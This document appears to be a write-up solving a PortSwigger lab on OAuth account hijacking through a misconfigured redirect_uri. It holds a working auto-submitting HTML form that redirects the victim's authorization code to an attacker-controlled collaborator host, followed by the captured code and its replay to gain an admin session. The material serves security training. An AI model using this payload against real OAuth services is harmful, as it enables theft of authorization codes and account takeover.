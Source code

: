 # [Lab: OAuth account hijacking via redirect_uri](https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri)

## Lab

This lab uses an OAuth service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorization codes associated with other users' accounts.

To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete Carlos.

The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

You can log in with your own social media account using the following credentials: `wiener:peter`.

## Analysis

both grant type (authorization code and implicit) either a code or token is sent via the victim's browser to the `/callback` endpoint specified in the `redirect_uri`.

=> craft a csrf-like attack form with fake `redirect_uri`

Note that using `state` or `nonce` protection does not necessarily prevent these attacks because an attacker can generate new values from their own browser.

## Solutions

csrf-like:

  ```html
  <html>
    <!-- CSRF PoC - generated by Burp Suite Professional -->
    <body>
      <form action="https://oauth-0a130095032b5f8cc29c558302ee006e.web-security-academy.net/auth">
        <input type="hidden" name="client&#95;id" value="iso19mhkj5ummfi37cqbe" />
        <!-- collaborator client address -->
        <input type="hidden" name="redirect&#95;uri" value="https&#58;&#47;&#47;5366s4akp4v4kffd1yhoq9ocb3hu5otd.oastify.com" />
        <input type="hidden" name="response&#95;type" value="code" />
        <input type="hidden" name="scope" value="openid&#32;profile&#32;email" />
        <input type="submit" value="Submit request" />
      </form>
      <script>
          document.forms[0].submit();
      </script>
    </body>
  </html>
  ```

deliver to victim then check the collaborator client:

  ```http
  GET /?code=DJYAcffr4h674oFVmIrOLakqQmJa7DoPEnMnQZYhSJa HTTP/1.1
  Host: 5366s4akp4v4kffd1yhoq9ocb3hu5otd.oastify.com
  ```

api call:

  ```http
  GET /oauth-callback?code=DJYAcffr4h674oFVmIrOLakqQmJa7DoPEnMnQZYhSJa HTTP/1.1
  Host: 0acc001e03a15fb0c20957c9005200f4.web-security-academy.net

  HTTP/1.1 200 OK
  Set-Cookie: session=sUSmrGb2GvyMkucGstigk7ZR5iYDQduW; 

  <a href="/admin">Admin panel</a>
  ```

solved
